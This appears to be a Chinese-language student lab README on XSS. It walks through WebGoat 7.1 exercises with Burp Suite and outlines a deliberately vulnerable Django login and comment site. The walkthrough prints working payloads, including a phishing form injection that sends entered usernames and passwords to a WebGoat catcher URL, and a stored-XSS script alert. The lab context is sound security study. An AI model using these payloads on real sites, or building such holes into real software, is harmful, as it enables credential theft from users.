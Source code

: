 # xxs-web
## 实验要求
- [x] 找一个具有xss漏洞的网页理解xss漏洞的原理。
- [x] 自己写一个具有xss漏洞的网页（推荐django）,包括登录页面和评论页面（每个用户都可以看到其他用户的评论内容、用户id、评论时间）
- [x] 写一个自动化脚本，自动提交表单登录网站，进入论坛页面，并爬取论坛中的信息
## 实验步骤
### xss漏洞
#### 实验环境
kali虚拟机上使用webgoat(即：不是开发者版本)
![](images/dockerps.png)
firefox设置了代理并使用burp suite拦截流量。
![](images/proxy.png)
实验使用webgoat7.1,完成了第九章Cross-Site Scripting(XSS)的学习和练习
#### webgoat7.1-xss漏洞实验步骤
[webgoat攻略](https://www.cnblogs.com/yangmzh3/p/7542018.html)
##### 1. Phishing with XSS
目标：通过XSS添加一个表单让受害者输入用户名和密码，达到钓鱼的结果。
输入代码，搜索任意字符串尝试：```</form><form name="phish"><br/><br/><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br/><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR> ```
![](images/phishxss-1.png)
burp suite拦截结果如下：
![](images/phishxss-2.png)
根据题目要求搜索目标字符串，输入：```<form><br/><br/><HR><H3>This feature requires account login:</H3><br/><br/>Enter Username:<br/><input type="text" id="user" name="user"><br/>Enter Password:<br/><input type="password" name = "pass" id="pass"><br/><input type="submit" name="login" value="login" οnclick="var user=document.getElementById('user');var pass=document.getElementById('pass');alert('Had this been a real attack... Your credentials were just stolen. User Name = ' + user.value + 'Password = ' + pass.value);var XSSImage=new Image; XSSImage.src='http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&user='+ user.value + '&password=' + pass.value + '';"><br/><br/><HR></form>```,得到新的结果如下图，过关：
![](images/phishxss-2.png)
##### 2. LAB：Cross Site Scripting
###### 2.1 Stage 1:Stored XSS
目标：更改tom用户的信息（注入代码）,当Jerry用户访问的时候弹出弹窗。  
选择任意一个输入框，输入注入代码：```<script>alert('XSS')</script>```
![](images/lab1-1.png)
保存，登录'Jerry',访问Tom的资料，看到弹出框
###### 2.2 Stage 2:Block Stored XSS using Input Validation
目标：输入验证（采用过滤技术）阻止存储式xss攻击  
由于需要开发者版本，放弃
![](images/lab2-1.png)
###### 2.3 Stage3:Stored XSS Revisited
目标：使用另外两个用户('Bruce' 和 'David')访问，重复2.1的操作。正常情况由于有了2.2的操作，就不会再有弹窗，由于不是开发者版本，因此还会有弹窗。由于实验重复，没有复现的必要，进行下一步。
###### 2.4 Stage4:Block Stored XSS using Output Encoding
目标：输入验证（采用编码技术）阻止存储式xss攻击
![](images/lab4-1.png)
###### 2.5 Stage5:Reflected XSS
目标：方式和2.1一样，不同的是，2.1是更改存储的数据，当访问的时候弹出窗口，影响别人。这里是使用任意用户（比如Larry）登陆后，'searchfile'中注入代码，影响自己。
![](images/lab5-1.png)
得到效果，看到下方显示通过。
![](images/lab5-2.png)
![](images/lab5-3.png)
###### 2.6 Stage6:Block Reflected XSS
目标：仿照2.2开发防止反射式xss  
需要开发者版本，放弃。
![](images/lab6-1.png)
##### 3. Stored XSS Attacks
如下图输入注入代码
![](images/xssattack-1.png)
得到结果
![](images/xssattack-2.png)
##### 4. Reflected XSS Attacks 
如下图利用漏洞
![](images/xssattack2-1.png)
得到结果，并可以看到通关信息
![](images/xssattack2-2.png)
## xss-web网页搭建
>xssweb文件夹中，实现了网页搭建的模板，没有实现连接数据库
后端数据库：
  xssusers
  xsscomments  
--templates：各种页面的模板  
login.html登陆页面
comments.html评论页面
register.html注册页面  
--forms.py.  
--models.py
## 自动化脚本
